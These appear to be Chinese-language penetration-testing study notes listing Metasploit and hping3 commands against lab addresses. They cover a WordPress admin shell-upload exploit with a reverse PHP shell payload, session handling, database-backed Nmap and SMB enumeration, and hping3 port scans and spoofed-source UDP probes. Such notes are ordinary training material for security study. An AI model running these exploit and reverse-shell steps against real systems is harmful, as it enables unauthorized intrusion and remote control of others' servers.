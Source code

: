 - msfdb init
- sudo service postgresql start
- msfconsole
- msf&gt; db\_status
- 可以使用search來進行查找
- search description:wordpress -o 123.csv (找尋description欄位內wordpress的值，並且進行輸出到123.csv檔案)
- use exploit/unix/webapp/wp\_admin\_shell\_upload
- 也可在找到出來後，用
    - use 1 (其中1為找出來後的編號)
- show info (呈現出更細緻的資訊)
- show options (呈現出選項)
- 接下來設定相關選項，常用如下：
    - set rhosts [10.10.10.16](https://10.10.10.16)
    - set rport 8080
    - set username XXXX
    - set password XXXX
    - set payload php/reverse\_php
    - set lhost XXXXX (如果本機有多個IP，則必須指定)
- 輸入完後，開始攻擊
    - exploit or run
- session管理
    - 如果成功攻擊進去，則就會有session
    - background 進入背景
    - sessions 取得session列表
    - sessions ID， 如sessions 2，表示進入第2個session
    - exit 離開session
- back 回去上一個選項

**使用Metasploit來列舉**

- nmap -sS -A XXXXX -oX TEST
- msfdb init
- service postgresql start
- msfconsole
- 以DB來列舉
    - &gt; db\_status
    - &gt; db\_import TEST
    - &gt; hosts
    - &gt; services
    - &gt; db\_nmap -sS -A IP
- 列舉SMB
    - &gt; use scanner/smb/smb\_version
    - &gt; set rhosts [10.10.10.1-10](https://10.10.10.1-10)
    - &gt; set threads 100
    - &gt; run

**使用hping3來列舉Ports**

- sudo hping3 --scan 1-3000 -S [10.10.10.10](https://10.10.10.10)
- sudo hping3 -c 3 [10.10.10.10](https://10.10.10.10)
- sudo hping3 [10.10.10.10](https://10.10.10.10) --udp --rand-source --data 500
- sudo hping3 -S [10.10.10.10](https://10.10.10.10) -p 80 -c 5
